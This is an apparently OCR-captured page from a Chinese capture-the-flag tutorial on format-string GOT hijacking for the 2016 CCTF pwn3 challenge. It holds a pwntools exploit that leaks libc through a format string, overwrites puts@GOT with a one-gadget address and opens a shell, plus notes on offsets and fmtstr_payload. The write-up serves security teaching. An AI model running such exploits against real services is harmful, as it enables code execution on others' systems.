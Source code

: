 ```python
    p.sendline("dir")

name = "rxraclhm"
puts_got = elf.got['puts']
log.info("puts_got:"+hex(puts_got))

p.recvuntil("Rainism):")
p.sendline(name)

# leak libc
payload = "%8$s" + p32(puts_got)
creat('aaaa',payload)
show('aaaa')

puts_leak = u32(p.recv(4))
log.info("puts_leak:"+hex(puts_leak))
libc_base = puts_leak - libc.symbols['puts']
log.info("libc_base:"+hex(libc_base))
system = libc_base + libc.symbols['system']
log.info("system:"+hex(system))
binsh = libc_base + libc.search('/bin/sh').next()
log.info("binsh:"+hex(binsh))
onegadget = libc_base + 0x3ac62
log.info("onegadget:"+hex(onegadget))

# 1:overcover puts@got 2 system@got

#payload = fmtstr_payload(7, {puts_got: system})
#creat('/bin/sh;', payload)
#show('/bin/sh;')
#showlist()

# 2:overcover puts@got 2 onegadget
payload = fmtstr_payload(7, {puts_got: onegadget})
creat('bbbb', payload)
show('bbbb')

p.interactive()
```

> exp 替换我写得版本，这条题目的完整 WP ：[2016_CCTF_pwn3_writeup](example\fmtstr_example\hijack_GOT\2016_CCTF_pwn3_writeup.md)

注意

- 我在获取 puts 函数地址时使用的偏移是 8，这是因为我希望我输出的前 4 个字节就是 puts 函数的地址。其实格式化字符串的首地址的偏移是 7。

  **注解**：结合 payload 来看：``payload = "%8$s" + p32(puts_got)`` ，``%8$S``长度为 0x4 ，偏移为 7；``p32(puts_got)`` 长度为 0x4 ，偏移为 8 ;

- 这里我利用了 pwntools 中的 fmtstr_payload 函数，比较方便获取我们希望得到的结果，有兴趣的可以查看官方文档尝试。比如这里 fmtstr_payload(7, {puts_got: system_addr}) 的意思就是，我的格式化字符串的偏移是 7，我希望在 puts_got 地址处写入 system_addr 地址。默认情况下是按照字节来写的。
